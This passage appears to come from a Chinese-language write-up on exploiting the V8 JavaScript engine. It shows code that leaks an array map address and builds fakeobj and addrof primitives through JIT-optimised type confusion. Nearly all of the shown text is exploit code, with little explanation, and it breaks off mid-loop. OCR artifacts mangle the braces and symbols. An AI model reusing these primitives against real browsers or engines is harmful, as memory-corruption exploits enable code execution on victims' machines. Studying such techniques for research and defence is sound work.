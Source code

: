 ```
// const MAX_ITERATIONS = 100000;
foo();
for(var i=0;i&lt;MAX_ITERATIONS;i++)
`{`
    foo();
`}`
// readline();
let float_array_map = foo();
console.log('[*] array map ===&gt; '+hex(f2i(float_array_map)));



let obj_array_map = i2f(f2i(float_array_map)+0xa0);
console.log('[*] obj_array_map===&gt; '+hex(f2i(obj_array_map)));
```

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3.2"></a>3.2

伪造float_obj

```
function fakeobj_opt(addr)
`{`
    let array = [addr,addr];
    let o = `{`x:2`}`;
    array[o.x] = obj_array_map;
    return array
`}`

for(var i=0;i&lt;0x10000;i++)
`{`
    fakeobj_opt(float_array_map);
`}`//

function fakeObj(addr)//参数浮点型　　返回值浮点型
`{`
    // print(hex(f2i(addr)));

    let ret = fakeobj_opt(addr);
    // %DebugPrint(ret);
    return ret[0];
`}`
var float_map_obj = fakeObj(float_array_map);//ｆａｋｅ
```

#### <a class="reference-link" style="background-image: url('img/anchor.gif');" name="3.3"></a>3.3

addrof原语

```
function addrof_opt(obj)
`{`
    let array = [obj,obj];
    let o = `{`x:2`}`;
    array[o.x] = float_map_obj;
    return array;
`}`

var temp_obj = `{`"a":1`}`;

for(var i=0;i&lt;MAX_ITERATIONS;i++)
`{`
    addrof_opt(temp_obj);
```
